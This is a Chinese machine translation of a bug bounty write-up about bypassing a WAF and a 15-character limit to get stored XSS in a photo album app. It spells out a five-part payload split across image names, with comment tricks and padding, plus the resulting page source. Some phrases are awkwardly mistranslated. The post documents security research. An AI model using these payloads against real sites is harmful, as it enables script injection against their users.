



# XSS WAF &像老板一样绕过性格限制

> 原文：<https://infosecwriteups.com/xss-waf-character-limitation-bypass-like-a-boss-2c788647c229?source=collection_archive---------0----------------------->

H **ello 各位黑客！**

由于冠状病毒在世界范围内爆发，我在房间里呆了 3 天，感觉很无聊。所以我想为什么不写一篇我很久以前承诺过的文章呢🤭。几个月前，在我的推特上，我分享了一个在私人 bug bounty 网站上找到的绕过 XSS WAF 字符限制的方法。今天我将分享更多关于旁路的技术细节。希望你们会喜欢😇

早在 2019 年，我测试了一个网络应用程序，允许用户创建相册并上传照片，界面看起来像下面的截图-



**应用界面🤔**

当我点击**编辑**时，还有重命名图片的选项，所以通常任何研究人员都会在这里测试 XSS，因为有一种方法可以改变照片名称。所以我把照片的名字改成了下面的有效载荷-

```
xsstest'">{{7*7}}
```

> **然后我注意到了下面的事情——**

*   输入中有 15 个字符限制，所以我能够注入`**xsstest'">{{7*7**`这些字符。
*   所有特殊字符都被正确转义。
*   最后我被重定向到了 **/error.aspx？code=500** 当我试图再次加载相册时，由于 WAF 的原因，我必须将图像重命名为**xst est**，这样我就可以再次加载相册了。

看起来这个输入很好地防止了 XSS 攻击。然后我开始玩其他可用的选项，将**打嗝套装工具**与我的浏览器连接，并保持它打开，以捕捉 **HTTP 历史**中的所有后台请求。然后，当我浏览 HTTP 历史选项卡时，一个后台请求端点引起了我的注意，看起来像是 https://subdomain.company.com/ajax/generateImageList.ashx?JSON = { albums:[{ " ID ":"<picture _ ID>，" value":"on"}]} 。该请求针对相册**幻灯片**选项，端点页面源为:-

```
<a href="https://image-link.com/image.jpg" title="xsstest" rel="lightbox[gallery]">84**00000</a>
```

看看**标题**属性值我们在那个相册里的图像名称是什么。因此，我再次将我的图片名称重命名为`**xsstest'">**`，并再次检查了**Ajax/generateimagelist . ashx**页面源代码，这次是-

```
<a href="https://image-link.com/image.jpg" title="xsstest'">" rel="lightbox[gallery]">84**00000</a>
```

> **所以在这个新的 generateImageList.ashx 端点——**

*   用户输入没有正确转义。
*   没有晶片检测。

但是我们仍然有 15 个字符的限制，这使得这个 xss 没有用。我们能想到的最小 xss 有效载荷是`**"oncut="alert()**`，当我们在键盘上按下**窗口**窗口&窗口`COMMAND+X`窗口 **OS X** 窗口`CTRL+X`时，会弹出一个空白窗口

```
<a href="https://image-link.com/image.jpg" title=""oncut="alert()" rel="lightbox[gallery]">84**00000</a>
```



**空白弹出框😪**

我尝试了所有可能的方法来绕过这个字符限制，但无法做到这一点。我在这里停止了测试，并在我的**待办事项列表**中保存了关于这个端点的信息，以便在我再次测试这个资产时在这里查看。大约七个月后，我再次开始测试这个资产，并再次在这个端点上工作。现在我注意到我可以上传相册中的多张照片，通过选择相册中的所有照片，**幻灯片显示**选项请求端点更改为**https://subdomain . company . com/Ajax/generatealbumimagelist . ashx？JSON = { albums:[{ " ID ":"<album _ ID>，" value":"on"}]}** ，页面来源:-

```
<a href="https://image-link.com/image.jpg" title="xsstest'">" rel="lightbox[gallery]">84**00000</a><a href="https://image-link.com/image.jpg" title="xsstest'">" rel="lightbox[gallery]">84**00001</a>
```

所以现在我们有多次注射。那么为什么不上传相册中的 5 张图片，并使用 [**我的推文**](https://twitter.com/prial261/status/1172973681200418819) 提到的有效载荷呢？

> **有效载荷:**

*   **第一次注射:** `*/</script><!--`
*   **第二次注射:** `*/.domain)/*xxx`
*   **第三次注射:** `*/(document/*xx`
*   **第四次注射:** `*/prompt/*xxxxx`
*   **第 5 次注射:** `"><script>/*xss`

> **页面源在最终注入后变成:-**

```
<a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="**"><script>/*xss**" rel="lightbox[gallery]">84**00000</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/prompt/*xxxxx**" rel="lightbox[gallery]">84**00001</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/(document/*xx**" rel="lightbox[gallery]">84**00002</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/.domain)/*xxx**" rel="lightbox[gallery]">84**00003</a><a href="[https://image-link.com/image.jpg](https://image-link.com/image.jpg)" title="***/</script><!--**" rel="lightbox[gallery]">84**00004</a>
```

现在访问**https://subdomain . company . com/Ajax/generatealbumimagelist . ashx？JSON = { albums:[{ " ID ":"<album _ ID>，" value":"on"}]}** 将执行我们使用的有效负载:-



**繁荣😎🔥**

现在你可能会问为什么我在**第二到第五**有效载荷中多次使用`x`字符？答案是相册图片是根据名称长度+上传时间排序的。所以我多次使用`x`字符来使所有图片名称长度相同，这样当我上传图片时，它会根据图片上传时间排序。

希望你们喜欢这个。PM 我在 [***推特***](https://twitter.com/prial261/) 或 [**脸书**](https://www.facebook.com/prial261) 如果你有任何问题。

*# Stay _ Home
# Stay _ Safe
# Wash _ Your _ Hand _ frequency
# Hack _ The _ Planet***🔥**

*关注* [*Infosec 报道*](https://medium.com/bugbountywriteup) *获取更多此类精彩报道。*

[](https://medium.com/bugbountywriteup) [## 信息安全报道

### 收集了世界上最好的黑客的文章，主题从 bug 奖金和 CTF 到 vulnhub…

medium.com](https://medium.com/bugbountywriteup)